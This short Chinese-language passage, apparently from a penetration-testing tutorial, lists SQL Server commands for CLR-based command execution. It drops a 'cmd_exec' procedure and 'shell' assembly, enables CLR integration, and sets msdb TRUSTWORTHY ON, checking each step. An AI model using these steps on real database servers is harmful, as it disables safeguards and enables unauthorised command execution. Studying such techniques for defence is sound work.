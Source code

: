 ```php
DROP PROCEDURE  cmd_exec
DROP ASSEMBLY shell
```

选择调用的数据库

```php
use msdb
```

启用 CLR 集成

```php
EXEC sp_configure 'clr enabled', 1;
RECONFIGURE
GO
```

查询是否启用了 CLR 集成，value 为 1 则为开启

```php
SELECT * FROM sys.configurations WHERE name = 'clr enabled'
```

![image.png](assets/1706232584-9523070498346b29a82d69c39326c3bd.png)  
启用可信任

```php
ALTER DATABASE msdb SET TRUSTWORTHY ON
```

查询是否执行成功，为 1 则开启

```php
select name, is_trustworthy_on from sys.databases
```
